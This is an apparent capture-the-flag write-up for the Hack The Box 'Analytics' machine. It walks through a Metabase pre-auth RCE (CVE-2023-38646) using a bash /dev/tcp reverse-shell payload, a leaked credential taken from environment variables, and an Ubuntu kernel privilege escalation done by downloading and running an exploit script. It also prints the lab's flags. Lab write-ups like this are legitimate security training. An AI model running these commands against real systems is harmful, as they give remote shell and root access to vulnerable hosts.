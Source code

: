 ![Analytics-Pwned.png](./img/Analytics.png)
# Initial Reconnaissance
1. `curl -I 10.10.11.224` to find a possible location / DNS name
2. get a result of `analytical.htb`, add to `/etc/hosts`
3.  login page lead to another DNS named `data.analytical.htb`, add to `/etc/hosts`
4. login page uses metabase
5. nothing interesting

# User Escalation
1. found RCE metabase (CVE-2023-38646) POC `https://github.com/m3m0o/metabase-pre-auth-rce-poc`
2. setup nc listener `nc -lvnp 9090`
3. get the setup-token from `/api/session/properties`
4. run the POC script `python main.py -t http://data.analytical.htb -t setup-token -c "bash -i >& /dev/tcp/my-ip/9090 0>&1"`\
note: to get your IP, `ifconfig` look for `tun` connection should be 10.10.x.y
5. get a connection in the nc listener
6. looks like i'm inside a container, check for environment variables `env`
7. exposed a credentials `metalytics:An4lytics_ds20223#`
8. ssh into the machine `ssh metalytics@10.10.11.224`, then enter the password, if fingerprint thing is asked, just `yes`
9.  once logged in, do `ls`, notice a list of file
10. `cat user.txt`
11. flag: `d79087ca55465b0f50a125b4491f26b2`

# Privilege Escalation
1. `sudo -l` to check any available sudo command, return nothing
2. `ls /usr/bin` to find interesting binary to be exploited, found nothing interesting
3. `uname -rs` or `uname -a` find the kernel and OS version, return an Ubuntu with linux kernel 6.2.0-25
4. there's been a recent discovery of ubuntu privesc CVE-2023-2640 an CVE-2023-32629
5. found the POC `https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629`
6. clone the repositories, change to the repositories directory, i need to send it into the target machine
7. setup a simple http server on the repositories directory `python -m http.server`, open a http server with port 8000
8. on the target machine, create a directory `mkdir /tmp/random_name` then move to the `/tmp/random_name` directory (unwritten rules, value others by not giving the exploit or making a mess to the challenges)
9. download the file from my machine `wget my-ip:8000/exploit.sh`
10. exploit should be just a file, make it executable `chmod +x exploit.sh`
11. `./exploit.sh`, to run the exploit
12. notice that the name have been changed from `metalytics` to `root` or read the prompt in the terminal after running the script
13. `cat /root/root.txt`
14. flag: `e4a9094067381779986ebcfe49ba7873`

![Analytics-Pwned.png](./img/Analytics-Pwned.png)